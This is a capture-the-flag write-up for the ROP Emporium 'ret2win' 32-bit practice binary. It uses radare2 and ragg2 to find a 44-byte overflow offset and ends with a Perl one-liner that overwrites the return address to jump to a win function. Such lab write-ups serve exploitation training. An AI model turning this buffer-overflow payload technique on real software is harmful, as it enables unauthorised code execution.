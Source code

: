 # Download Link
https://ropemporium.com/challenge/ret2win.html
# Method of Solve
> The first thing we should do is examine the binary with rabin2
```
rabin2 -I ./ret2win32
```
> The binary follows little endian order. Next, we should identify the address of the win function with r2
```
r2 -d -A ret2win32
afl
```
> The address for the win function in little endian is: `\x2c\x86\x04\x08`
> The next step is to identify the buffer overflow offset. We create a pattern with ragg2 to feed to the binary
```
ragg2 -P 100 -r
```
> Then run the binary
```
dc
```
> paste in the pattern
> This crashes the program, and we can use this command to get the offset of the eip register
```
dr
```
> Note the value in the eip register, and copy it, then
```
ragg2 -q 0x41415041
```
> This tells us that the offset is 44 bytes
> Now we can combine this information to craft a string in Perl
```
perl -e 'print "A" x 44 . "\x2c\x86\x04\x08"' | ./ret2win32
````
